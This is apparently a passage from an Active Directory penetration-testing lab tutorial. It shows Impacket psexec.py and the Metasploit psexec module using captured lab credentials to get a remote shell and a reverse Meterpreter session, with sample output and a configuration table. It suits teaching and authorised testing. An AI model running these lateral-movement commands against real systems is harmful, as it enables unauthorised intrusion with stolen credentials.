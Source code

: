 ```bash
# Using psexec with captured credentials
psexec.py marvel.local/fcastle:'Password1'@10.0.0.25

# Example output:
# Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
# [*] Requesting shares on 10.0.0.25.....
# [*] Found writable share ADMIN$
# [*] Uploading file NJFQWyMx.exe
# [*] Opening SVCManager on 10.0.0.25.....
# [*] Creating service hsjw on 10.0.0.25.....
# [*] Starting service hsjw.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19042.631]
# (c) 2020 Microsoft Corporation. All rights reserved.
# 
# C:\Windows\system32>
```

#### Using Metasploit PsExec Module
For a more advanced post-exploitation with Meterpreter:

```bash
# Start Metasploit
msfconsole

# Use the psexec module
use exploit/windows/smb/psexec

# Configure the module
set RHOSTS 192.168.1.10
set SMBUser fcastle
set SMBPass Password1
set SMBDomain marvel.local
set LHOST 192.168.138.134
set LPORT 4444

# Show options to verify configuration
show options

# Execute the exploit
exploit
```

**Module Configuration:**
```
Name         Current Setting      Required  Description
----         ---------------      --------  -----------
EXITFUNC     thread              yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST        192.168.138.134     yes       The listen address (an interface may be specified)
LPORT        4444                yes       The listen port
RHOSTS       192.168.1.10        yes       The target host(s)
SMBDomain    marvel.local        no        The Windows domain to use for authentication
SMBPass      Password1           no        The password for the specified username
SMBUser      fcastle             no        The username to authenticate as
```
